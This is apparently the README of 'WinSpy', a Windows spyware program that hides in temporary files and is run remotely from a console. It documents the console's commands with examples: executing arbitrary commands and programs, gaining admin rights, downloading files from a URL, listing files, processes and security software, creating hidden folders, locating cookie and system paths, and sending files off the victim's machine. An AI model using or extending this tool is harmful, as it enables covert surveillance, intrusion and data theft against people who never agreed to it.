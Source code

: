 # WinSpy

A spy program that automatically places itself in temporary files and spies on you, remotely controlled by WinSpyConsole which allows the execution of programs and the execution of many commands.

## WinSpyConsole

* start
    * start the server
* stop
    * stop the server
* exit
    * stop and close console

> Commands

```
$ <action> <arg>
```

> Action

* CMD
    * args required for command
    ```cmd
    $ cmd start chrome
    ```
* ADMIN
    * get admin 
* EXECUTE
    * args required for program + program argv
     ```cmd
    $ execute cmd.exe /c start http://example.com/
    ```
* DOWNLOAD
    * args required for file name + url
     ```cmd
    $ download example.html http://example.com/
    ```
* FILE_LIST
    * arg required for path
    ```cmd
    $ file_list C:\
    ```
* PROCESS_LIST
    ```cmd
    $ process_list
    ```
* SECURITY_LIST
    * not work very well
    ```cmd
    $ security_list
    ```
* SECURITY_DISABLE
    * not implemented
* CREATE_FILE
    * arg required
    ```cmd
    $ create_file hello.txt
    ```
* CREATE_DIR
    * args required directory + hidden (1 or 0)
    ```cmd 
    create_dir C:\Hello 1 
    ```
* GET_PATH
    * arg required windows directory (value)
        * CSIDL_ADMINTOOLS
        * CSIDL_APPDATA
        * CSIDL_COMMON_ADMINTOOLS
        * CSIDL_COMMON_APPDATA
        * CSIDL_COMMON_DOCUMENTS
        * CSIDL_COOKIES
        * CSIDL_FLAG_CREATE
        * CSIDL_FLAG_DONT_VERIFY
        * CSIDL_HISTORY
        * CSIDL_INTERNET_CACHE
        * CSIDL_LOCAL_APPDATA
        * CSIDL_MYPICTURES
        * CSIDL_PERSONAL
        * CSIDL_PROGRAM_FILES
        * CSIDL_PROGRAM_FILES_COMMON
        * CSIDL_SYSTEM
        * CSIDL_WINDOWS
        * ...
        * [list values here](https://tarma.com/support/im9/using/symbols/functions/csidls.htm)
    * 37 = CSIDL_SYSTEM
    ```cmd 
    get_path 37
    ```
* SEND
    * arg required file name + path
    ```cmd 
    send hello.txt %userprofile%\AppData\Local\Temp
    ```
* NONE
    * test command 
    ```cmd 
    $ none ping
    ```

## WinSPy
